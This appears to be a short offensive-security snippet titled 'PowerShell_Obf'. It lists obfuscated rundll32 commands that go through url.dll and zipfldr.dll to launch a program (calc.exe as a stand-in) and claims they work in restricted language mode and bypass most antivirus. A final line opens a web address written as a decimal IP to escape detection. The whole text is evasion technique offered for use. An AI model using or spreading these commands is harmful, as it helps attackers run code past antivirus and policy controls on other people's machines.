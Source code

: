 # PowerShell_Obf

#Calling files in restricted language mode and bypass most AVs
"rundll32 url.dll,FileProtocolHandler file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E"

rundll32.exe zipfldr.dll,RouteTheCall file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E

rundll32 url.dll,OpenURL file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E

#Call a web page via its decimal value
rundll32 url.dll,OpenURL HTTP://`2`9`1`5`2`2`4`9`3`3
